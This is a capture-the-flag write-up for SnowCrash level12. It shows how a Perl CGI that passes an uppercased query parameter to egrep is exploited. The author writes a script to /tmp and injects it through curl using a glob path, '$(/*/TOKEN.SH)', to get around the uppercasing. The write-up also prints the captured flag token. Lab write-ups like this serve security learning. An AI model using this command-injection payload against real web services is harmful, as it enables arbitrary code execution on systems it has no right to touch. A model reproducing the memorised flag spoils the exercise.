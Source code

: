After login to level12 user we find a perl script binding to localhost:4646

CGI takes two query parameters x and y, x is the interesting one
because the cgi executes the egrep utility matching the value of 
uppercase x and whitespaces skipped

Let's create an executable script /tmp/SCRIPT that executes getflag
and redirects stdout to /tmp/flag

```
level12@SnowCrash:/tmp$ cat > /tmp/TOKEN.SH
#!/bin/bash

/bin/getflag > /tmp/flag
level12@SnowCrash:/tmp$ chmod +x /tmp/TOKEN.SH
```

Then we use curl to give the x parameter our shell script

```
level12@SnowCrash:/tmp$ curl  'http://127.0.0.1:4646/?x=$(/*/TOKEN.SH)'
..level12@SnowCrash:/tmp$ cat /tmp/flag
Check flag.Here is your token : g1qKMiRpXf53AWhDaU7FEkczr
level12@SnowCrash:/tmp$
```
